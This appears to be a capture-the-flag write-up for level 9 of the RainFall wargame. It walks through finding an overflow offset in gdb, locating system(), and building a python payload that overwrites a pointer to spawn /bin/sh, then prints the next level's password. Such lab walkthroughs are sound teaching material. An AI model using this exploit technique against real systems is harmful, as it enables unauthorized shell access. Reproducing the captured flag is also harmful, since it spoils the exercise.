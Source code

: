 # Level9

This is what appears to be a cpp program. There is one vulnerable call to memset that we can overflow. First of all, let's find the offset

    $ msf-pattern_create -l200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    (gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
    Starting program: /home/user/level9/level9 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

    Program received signal SIGSEGV, Segmentation fault.
    0x08048682 in main ()
    (gdb) i r
    eax            0x41366441	1094083649 <-- A6dA
    ecx            0x67413567	1732326759
    edx            0x804a0d4	134521044
    ebx            0x804a078	134520952
    esp            0xbffff640	0xbffff640
    ebp            0xbffff668	0xbffff668
    esi            0x0	0
    edi            0x0	0
    eip            0x8048682	0x8048682 <main+142>
    eflags         0x210287	[ CF PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    (gdb) x $eax
    0x804a00c:	0x41306141 <-- get the buffer address

    $ msf-pattern_offset -q Ad6A
    [*] Exact match at offset 108

We can overflow EAX using the 109-112th characters.
The overflowed address is 0x804a00c.

The amazing idea of [chmadran](https://github.com/chmadran/) is that we can craft a payload that will overflow the eax by sending the address above, and inside the buffer we can make a call to system with "/bin/sh" as argument to execute it.

Address of system : 

    (gdb) run
    Starting program: /home/user/level9/level9 
    [Inferior 1 (process 3597) exited with code 01]
    (gdb) p system
    $1 = {<text variable, no debug info>} 0xb7d86060 <system>

Now we can craft the payload :

    level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A"*104 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
    sh: 1: 
        : not found
    $ cd ../bonus0
    $ cat .pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
